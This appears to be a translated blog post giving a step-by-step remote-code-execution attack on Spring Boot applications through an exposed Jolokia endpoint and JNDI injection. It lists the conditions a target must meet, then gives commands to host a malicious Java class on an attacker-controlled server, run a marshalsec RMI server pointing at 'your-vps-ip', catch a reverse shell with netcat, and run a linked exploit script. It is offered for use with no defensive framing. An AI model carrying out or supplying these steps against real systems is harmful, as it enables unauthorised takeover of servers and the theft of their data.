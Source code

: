 [](https://www.blogger.com/#)

### Jolokia Realm JNDI RCE

**Conditions of use:**

- Target website exists /jolokiaor /actuator/jolokiainterface

- The target uses jolokia-coredependencies (version requirements are currently unknown) and related MBeans exist in the environment

- The target can request the attacker's server (the request can go out of the Internet)

- JNDI injection is affected by the target JDK version, jdk < 6u141/7u131/8u121 (RMI way)

**How to use:**\
[](https://www.blogger.com/#)**Step 1: **View Existing MBeans

- Visit the /jolokia/listinterface to see if the type=MBeanFactoryand createJNDIRealmkeywords exist.

[](https://www.blogger.com/#)**Step 2:** Prepare the Java code for execution

- [Write optimized Java sample code](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) to bounce the shell JNDIObject.java.

[](https://www.blogger.com/#)**Step 3: **Managed class files

Open a simple HTTP server on the vps machine you control, and try to use common HTTP service ports (80, 443)

```
# Use python to quickly start the http serverpython2 -m SimpleHTTPServer 80python3 -m http.server 80
```

Copy the compiled class file in step 2 to the root directory of the HTTP server.\
[](https://www.blogger.com/#)**Step 4: **Set up malicious rmi service

Download [marshalsec](https://github.com/mbechler/marshalsec) and use the following commands to set up the corresponding rmi service:

|

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer [http://your-vps-ip:80/](http://your-vps-ip/)#JNDIObject 1389

 |

**Step 5:** Listen to the port of the bouncing shell

Generally, use nc to listen to the port and wait for the rebound shell

```
nc -lvp 443
```

[](https://www.blogger.com/#)**Step 6: **Send malicious payload

- [Modify the target address, RMI address, port, and other information in the spring-boot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) script according to the actual situation, and then run it on the server you control.
